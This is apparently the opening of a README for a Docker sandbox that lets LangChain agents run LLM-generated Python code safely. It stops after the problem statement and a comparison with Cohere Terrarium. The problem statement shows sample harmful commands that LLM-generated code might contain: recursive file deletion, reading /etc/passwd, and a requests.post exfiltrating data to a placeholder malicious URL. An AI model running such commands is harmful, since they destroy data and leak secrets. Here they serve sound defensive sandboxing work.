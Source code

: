 # Python Code Interpreter with Docker Sandbox for use with LangChain Agents

We demonstrate how to construct a docker based Python code interpreter that can be used as a Langchain Agent Tool for controlled and secure execution of LLM generated Python code. 

## Table of Contents
- [Problem Statement](#problem-statement)
- [Existing Solutions and Limitations](#existing-solutions-and-limitations)
- [Solution Approach](#solution-approach-in-this-repo)
- [Technical Details](#technical-details)
  - [Input/Output Schema](#inputoutput-schema)
  - [Tool Integration with LangChain](#tool-integration-with-langchain)
  - [Security Features](#security-features)
- [Lessons Learned](#lessons-learned)
  - [Error Handling Simplicity](#error-handling-simplicity)
  - [LLM Behavior Insights](#llm-behavior-insights)
  - [Sandbox Design Decisions](#sandbox-design-decisions)
- [Technologies Used](#technologies-used)
- [Setup](#setup)
- [License](#license)
- [Disclaimer](#disclaimer)
- [About the Author](#about-the-author)

## Problem Statement

Langchain's experimental hub contains the `PythonREPLTool` tool which can be used to locally execute LLM-generated Python code. However, when using this tool, we face potential security risks from arbitrary code execution since the LLM could potentially generate harmful code such as 

```python
# Potentially harmful operations
os.system('rm -rf *')  # Delete files
open('/etc/passwd').read()  # Access sensitive files
requests.post('malicious-url', data=sensitive_data)  # Data exfiltration
while True: pass  # Resource exhaustion
```
and hence is it unsafe to run any LLM generated code directly on the host machine without a suitable sandboxing mechanism. 

## Existing Solutions and Limitations

[Cohere-Terrarium](https://github.com/cohere-ai/cohere-terrarium/tree/main) is a very interesting solution that provides a sandboxed environment for running LLM generated Python code. Based on the Pyodide project, it allows running Python code to be run locally or in the cloud within the WASM interpreter. However, the primary limitation of this approach is that it is restricted to Pyodide-compatible [packages](https://pyodide.org/en/stable/usage/packages-in-pyodide.html). If the LLM generates code that requires a package which is not compatible with Pyodide, the code cannot be executed. (Note that Pyodide contains micropip, so in theory one could potentially let the python app code to  first use micropip to install the missing package, but there are several challenges here; for example; the LLM needs to be carefully prompted to Pyrodide-compatible packages and installation of missing packages;  I did some preliminary investigation on this and found this challenging.)
